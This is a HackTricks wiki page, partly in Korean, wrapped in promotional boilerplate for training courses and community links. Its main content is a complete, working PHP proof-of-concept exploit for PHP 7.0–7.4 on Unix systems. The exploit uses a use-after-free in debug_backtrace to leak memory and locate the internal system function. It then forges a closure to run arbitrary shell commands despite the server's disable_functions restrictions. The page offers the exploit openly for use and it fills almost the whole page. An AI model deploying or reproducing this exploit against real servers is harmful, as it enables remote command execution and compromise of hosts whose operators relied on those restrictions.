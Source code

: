 # disable\_functions bypass - PHP 7.0-7.4 (\*nix only)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}

## PHP 7.0-7.4 (\*nix only)

[https://github.com/mm0r1/exploits/blob/master/php7-backtrace-bypass/exploit.php](https://github.com/mm0r1/exploits/blob/master/php7-backtrace-bypass/exploit.php)
```php
<?php

# PHP 7.0-7.4 disable_functions bypass PoC (*nix only)
#
# Bug: https://bugs.php.net/bug.php?id=76047
# debug_backtrace() returns a reference to a variable
# that has been destroyed, causing a UAF vulnerability.
#
# This exploit should work on all PHP 7.0-7.4 versions
# released as of 30/01/2020.
#
# Author: https://github.com/mm0r1

pwn("uname -a");

function pwn($cmd) {
global $abc, $helper, $backtrace;

class Vuln {
public $a;
public function __destruct() {
global $backtrace;
unset($this->a);
$backtrace = (new Exception)->getTrace(); # ;)
if(!isset($backtrace[1]['args'])) { # PHP >= 7.4
$backtrace = debug_backtrace();
}
}
}

class Helper {
public $a, $b, $c, $d;
}

function str2ptr(&$str, $p = 0, $s = 8) {
$address = 0;
for($j = $s-1; $j >= 0; $j--) {
$address <<= 8;
$address |= ord($str[$p+$j]);
}
return $address;
}

function ptr2str($ptr, $m = 8) {
$out = "";
for ($i=0; $i < $m; $i++) {
$out .= chr($ptr & 0xff);
$ptr >>= 8;
}
return $out;
}

function write(&$str, $p, $v, $n = 8) {
$i = 0;
for($i = 0; $i < $n; $i++) {
$str[$p + $i] = chr($v & 0xff);
$v >>= 8;
}
}

function leak($addr, $p = 0, $s = 8) {
global $abc, $helper;
write($abc, 0x68, $addr + $p - 0x10);
$leak = strlen($helper->a);
if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
return $leak;
}

function parse_elf($base) {
$e_type = leak($base, 0x10, 2);

$e_phoff = leak($base, 0x20);
$e_phentsize = leak($base, 0x36, 2);
$e_phnum = leak($base, 0x38, 2);

for($i = 0; $i < $e_phnum; $i++) {
$header = $base + $e_phoff + $i * $e_phentsize;
$p_type  = leak($header, 0, 4);
$p_flags = leak($header, 4, 4);
$p_vaddr = leak($header, 0x10);
$p_memsz = leak($header, 0x28);

if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
# handle pie
$data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
$data_size = $p_memsz;
} else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
$text_size = $p_memsz;
}
}

if(!$data_addr || !$text_size || !$data_size)
return false;

return [$data_addr, $text_size, $data_size];
}

function get_basic_funcs($base, $elf) {
list($data_addr, $text_size, $data_size) = $elf;
for($i = 0; $i < $data_size / 8; $i++) {
$leak = leak($data_addr, $i * 8);
if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
$deref = leak($leak);
# 'constant' constant check
if($deref != 0x746e6174736e6f63)
continue;
} else continue;

$leak = leak($data_addr, ($i + 4) * 8);
if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
$deref = leak($leak);
# 'bin2hex' constant check
if($deref != 0x786568326e6962)
continue;
} else continue;

return $data_addr + $i * 8;
}
}

function get_binary_base($binary_leak) {
$base = 0;
$start = $binary_leak & 0xfffffffffffff000;
for($i = 0; $i < 0x1000; $i++) {
$addr = $start - 0x1000 * $i;
$leak = leak($addr, 0, 7);
if($leak == 0x10102464c457f) { # ELF header
return $addr;
}
}
}

function get_system($basic_funcs) {
$addr = $basic_funcs;
do {
$f_entry = leak($addr);
$f_name = leak($f_entry, 0, 6);

if($f_name == 0x6d6574737973) { # system
return leak($addr + 8);
}
$addr += 0x20;
} while($f_entry != 0);
return false;
}

function trigger_uaf($arg) {
# str_shuffle prevents opcache string interning
$arg = str_shuffle(str_repeat('A', 79));
$vuln = new Vuln();
$vuln->a = $arg;
}

if(stristr(PHP_OS, 'WIN')) {
die('This PoC is for *nix systems only.');
}

$n_alloc = 10; # increase this value if UAF fails
$contiguous = [];
for($i = 0; $i < $n_alloc; $i++)
$contiguous[] = str_shuffle(str_repeat('A', 79));

trigger_uaf('x');
$abc = $backtrace[1]['args'][0];

$helper = new Helper;
$helper->b = function ($x) { };

if(strlen($abc) == 79 || strlen($abc) == 0) {
die("UAF failed");
}

# leaks
$closure_handlers = str2ptr($abc, 0);
$php_heap = str2ptr($abc, 0x58);
$abc_addr = $php_heap - 0xc8;

# fake value
write($abc, 0x60, 2);
write($abc, 0x70, 6);

# fake reference
write($abc, 0x10, $abc_addr + 0x60);
write($abc, 0x18, 0xa);

$closure_obj = str2ptr($abc, 0x20);

$binary_leak = leak($closure_handlers, 8);
if(!($base = get_binary_base($binary_leak))) {
die("Couldn't determine binary base address");
}

if(!($elf = parse_elf($base))) {
die("Couldn't parse ELF header");
}

if(!($basic_funcs = get_basic_funcs($base, $elf))) {
die("Couldn't get basic_functions address");
}

if(!($zif_system = get_system($basic_funcs))) {
die("Couldn't get zif_system address");
}

# fake closure object
$fake_obj_offset = 0xd0;
for($i = 0; $i < 0x110; $i += 8) {
write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
}

# pwn
write($abc, 0x20, $abc_addr + $fake_obj_offset);
write($abc, 0xd0 + 0x38, 1, 4); # internal func type
write($abc, 0xd0 + 0x68, $zif_system); # internal func handler

($helper->b)($cmd);
exit();
}
```
{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
